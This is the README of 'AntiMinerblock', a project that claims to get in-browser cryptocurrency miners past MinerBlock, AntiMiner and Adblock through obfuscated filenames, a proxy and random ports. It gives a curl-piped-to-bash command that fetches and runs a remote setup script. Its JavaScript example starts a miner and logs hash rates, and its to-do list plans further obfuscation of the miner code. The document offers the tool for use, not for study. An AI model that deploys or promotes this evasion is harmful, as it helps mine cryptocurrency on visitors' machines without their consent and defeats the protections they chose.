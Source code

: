 # AntiMinerblock
This script attempts to bypass extensions or network blocks that prevent the use of online cryptocurrency miners.

## 100% effectiveness from tested extensions
* MinerBlock
* AntiMiner
* Adblock (all lists enabled)
* Adblock Plus
### Test it at: https://skyrisbactera.com/antiminerblock/test.html

## Features
* 100% success rate
* Obfuscates filenames per server
* Automatically creates proxy (using coin-hive-stratum)
* Random port
* Interactive setup

## Installation
### Ubuntu/Unix
First, make sure you have Node.js installed:
https://nodejs.org/en/download/package-manager/

Navigate to your server's scripts directory and run
```bash
bash <(curl -s https://raw.githubusercontent.com/SkyrisBactera/AntiMinerblock/master/setup.sh)
```
Then, add the script tag that the file generates to every HTML file you want to be protected. That's it!
### Windows
Not implemented yet (you can use cygwin for now)

## Usage
Call loadCryptominer, which will return a miner, and will return a value 0 to 4 referring to whether or not it worked.
```
0 - Remote coinhive
1 - Local coinhive with proxy
2 - Authedmine
3 - Crypto-loot
4 - Cloudcoins
5 - All blocked
6 - Script not blocked, but failure creating miner instance
```

Example:
```javascript
loadCryptominer(function(miner, status) {
  //Code that mines
  //For example:
  if (status == 5 || status == 6) {
    console.log("TEST FAILED!")
  } else {
    console.log("SUCCESSFULLY BYPASSED PROTECTION!")
  }
  miner.start();
  // Update stats once per second
  setInterval(function() {
    var hashesPerSecond = miner.getHashesPerSecond();
    var totalHashes = miner.getTotalHashes();
    var acceptedHashes = miner.getAcceptedHashes();
    console.log(hashesPerSecond, totalHashes, acceptedHashes)
    }, 1000);
});
```
## Donate!
If you appreciate this project, feel free to send me some Monero at:
```424kUkn7pU7SVF4qmbzVt6fLPRFw6Q1v7RmVq4qE9sE2V5dyhZoGdWHDUFui85SfhVTfmDN3CzcYDQSwo41z3AuLDzU3qQt```
or just use PayPal:
```davis@skyrisbactera.com```

## TODO
* Run proxy over port 80 or 443
* Obfuscate miner code
